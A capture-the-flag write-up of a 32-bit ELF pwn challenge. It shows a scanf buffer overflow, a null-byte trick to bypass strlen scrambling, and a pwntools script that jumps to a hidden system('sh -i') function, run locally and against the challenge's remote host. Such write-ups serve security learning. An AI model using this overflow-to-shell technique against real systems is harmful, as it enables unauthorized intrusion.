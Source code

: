 # Pwn #2 紅豆麵包 (Pwn, 600pts)
###### Author: Bachoo#0001

```
Please try it nc 0.tcp.ngrok.io 15027
```
File instruction
```
$ file magic 
magic: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=b688e262e32e6fa395829c92d117185e312c0386, not stripped
```

The Challenge involved a binary so first run the binary locally: 
```
$ ./magic
Welcome to Magic system!
Give me your name(a-z): bachoo
Your name is bachoo.
Give me something that you want to MAGIC: wizardry
r�� �/T�
```

## Looking for an overflow attack point

There are 2 input points, one which asks for your name and one that asks for what you want to "magic"?
I will use IDA to view the disassembly
![ida](ida.png)
for the first input point, it limits it to 11 characters and stays the same no matter what, the size is also consistent, so this input point does not meet the need for buffer overflow attacks
Moving onto the 2nd input point, it uses the **scanf** function, which is very dangerous since there is no overflow check, which is perfect for us
the "magic" function reads the user input, uses strlen to determine the length and calls "do_magic"
let’s investigate "do_magic"
the "do_magic" function, loops and messes up the input that we give randomly, then returns it. It relies on the fact that our characters that we input aren't blank, so no null terminators

# The "never_use" function
In this program, there is a function called "never_use", which directly executes **system("sh -i")** into command mode.
Therefore, we only need to find a way to let the program jump into this function.

The position of the function is **0x0804860D**
```
.text:0804860D                 public never_use
.text:0804860D never_use       proc near
.text:0804860D                 push    ebp
.text:0804860E                 mov     ebp, esp
.text:08048610                 sub     esp, 18h
.text:08048613                 mov     dword ptr [esp], offset asc_8048830 ; "sh -i"
.text:0804861A                 call    _system
.text:0804861F                 leave
.text:08048620                 retn
.text:08048620 never_use       endp
```
Now that we know what to do, the steps needed are:

* deceive strlen, to prevent from our attack from being xor'd
"A"*19+'\0'
* Then fill in 72-20=52 invalid characters
+"A"*52
* Fill in our attack payload, the reason why we don't use 0x0804860d is that 0d is return character, so we use the same line

+p32(0x08048613)
```
.text:08048613                 mov     dword ptr [esp], offset asc_8048830 ; "sh -i"
```

## Making attack.py

We use python's pwntools to attack
```
from pwn import *

context.log_level = 'debug'

p = process('./magic')
p.sendline('bread')
p.sendline('a'*19+'\0'+'a'*52+p32(0x08048613))
p.interactive()
```
After local authentication succeeds, we can attack the remote now
```
from pwn import *

context.log_level = 'debug'
#p = process('./magic')
p = remote('0.tcp.ngrok.io', port)
p.sendline('bread')
p.sendline('a'*19+'\0'+'a'*52+p32(0x08048613))
p.interactive()
```

we are in the system, now we can just navigate to the /home/ctf folder
```
cd /home/ctf
cat flag
```

The flag is "NiHwk{(^(エ)^)}"
